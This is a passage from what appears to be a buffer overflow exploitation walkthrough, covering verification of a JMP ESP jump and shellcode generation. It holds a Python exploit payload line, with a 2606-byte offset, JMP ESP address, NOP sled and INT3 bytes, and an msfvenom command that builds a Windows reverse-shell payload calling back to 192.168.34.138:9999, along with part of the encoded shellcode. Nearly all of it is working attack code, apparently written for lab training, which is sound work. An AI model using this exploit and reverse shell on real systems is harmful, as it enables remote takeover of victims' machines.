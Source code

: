 ### 4. Verify jump is taking place
Note that this can be done earlier if needed after JMP ESP is known. **This is an important sanity check**.  
To test, send a payload of [OFFSET][JMP ESP][NOPSLED][INT3 (CC)]:
```python
exploit = 'A' * 2606 + jmpesp + 'x90' * 32 + '\xCC' * len(shellcode)
```
Note that the small nopsled is added to counter for the encoder's GetPC routine which is a destructive operation.  
If everything works correctly, the program should hit the interrupt.

![UI Screenshot](img/04.png)  

### 5. Generate shellcode
```bash
┌──(kali㉿kali)-[~/Documents/bof]
└─$ msfvenom --arch x86 --platform windows -p windows/shell_reverse_tcp LHOST=192.168.34.138 LPORT=9999 -b '\x00\x0a\x0d' -f python
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1712 bytes
buf =  b""
buf += b"\xd9\xc0\xba\x14\xf9\xdc\xcf\xd9\x74\x24\xf4\x5b\x33"
buf += b"\xc9\xb1\x52\x83\xc3\x04\x31\x53\x13\x03\x47\xea\x3e"
buf += b"\x3a\x9b\xe4\x3d\xc5\x63\xf5\x21\x4f\x86\xc4\x61\x2b"
buf += b"\xc3\x77\x52\x3f\x81\x7b\x19\x6d\x31\x0f\x6f\xba\x36"
buf += b"\xb8\xda\x9c\x79\x39\x76\xdc\x18\xb9\x85\x31\xfa\x80"
buf += b"\x45\x44\xfb\xc5\xb8\xa5\xa9\x9e\xb7\x18\x5d\xaa\x82"
buf += b"\xa0\xd6\xe0\x03\xa1\x0b\xb0\x22\x80\x9a\xca\x7c\x02"
buf += b"\x1d\x1e\xf5\x0b\x05\x43\x30\xc5\xbe\xb7\xce\xd4\x16"
buf += b"\x86\x2f\x7a\x57\x26\xc2\x82\x90\x81\x3d\xf1\xe8\xf1"
buf += b"\xc0\x02\x2f\x8b\x1e\x86\xab\x2b\xd4\x30\x17\xcd\x39"
buf += b"\xa6\xdc\xc1\xf6\xac\xba\xc5\x09\x60\xb1\xf2\x82\x87"
```